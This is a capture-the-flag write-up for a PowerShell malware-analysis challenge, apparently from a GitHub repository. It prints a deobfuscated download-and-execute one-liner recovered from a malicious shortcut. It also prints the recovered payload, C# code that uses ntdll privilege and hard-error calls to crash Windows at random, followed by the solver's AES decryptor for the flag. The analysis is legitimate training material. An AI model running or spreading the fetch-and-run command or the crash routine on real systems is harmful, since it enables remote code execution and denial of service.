

# Russian Roulette: Malware  

Author: @JohnHammond  

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(  

```
WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.
```  

```NOTE: Archive password is russian_roulette```

Download the file(s) below.  
```russian_roulette.zip```

```bash
##	Extract russian_roulette.zip on Windows 10 VM --> file is a powershell shortcut with parameters containing malware payload

##	Read Shortcut > Properties > Target, convert Base64, remove null
	> "iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd"

##	This is an Invoke-WebRequest to download and run payload

##	is.gd/jwr7JD > a file that is difficult to deobfuscate, so I tried another method:
```

## SOLUTION:  

Open Event Viewer, run the provided challenge Shortcut, view PowerShell logs  
Retry if crash  

From command line details included in log, or find very long Base64 and convert  
You get a PowerShell script that creates the flag and spawns new powershell, but will sometimes crash (1/6 chance) hence russian_roulette  
```powershell
$s='using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;
public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);
[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);
public static unsafe string Shot(){bool o;
uint r;
RtlAdjustPrivilege(19,true,false,out o);
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
using(Aes a=Aes.Create()){a.Key=k;
a.IV=i;
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';
$c=New-Object System.CodeDom.Compiler.CompilerParameters;
$c.CompilerOptions='/unsafe';
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"

##	Simplify script to use only the crypto flag parts and not crash
##	Run in Powershell as Administrator
$s = @"
using System;
using System.Security.Cryptography;
using System.IO;
public class Decryptor
{
    public static string Decrypt()
    {
        byte[] c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[] k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
        byte[] i = Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");

        using (Aes a = Aes.Create())
        {
            a.Key = k;
            a.IV = i;
            using (ICryptoTransform d = a.CreateDecryptor(a.Key, a.IV))
            using (var m = new MemoryStream(c))
            using (var y = new CryptoStream(m, d, CryptoStreamMode.Read))
            using (var reader = new StreamReader(y))
            {
                string decryptedText = reader.ReadToEnd();
                return decryptedText; // Return the decrypted text
            }
        }
    }
}
"@
$c = New-Object System.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions = '/unsafe'
$a = Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c
# Call the Decrypt method and capture the result
$result = & $a::Decrypt() 
Write-Host "Decrypted Result: $result" # Output the result to the console
```
Modify with ```Write-Host``` and fixes to print variable directly to console.
> flag
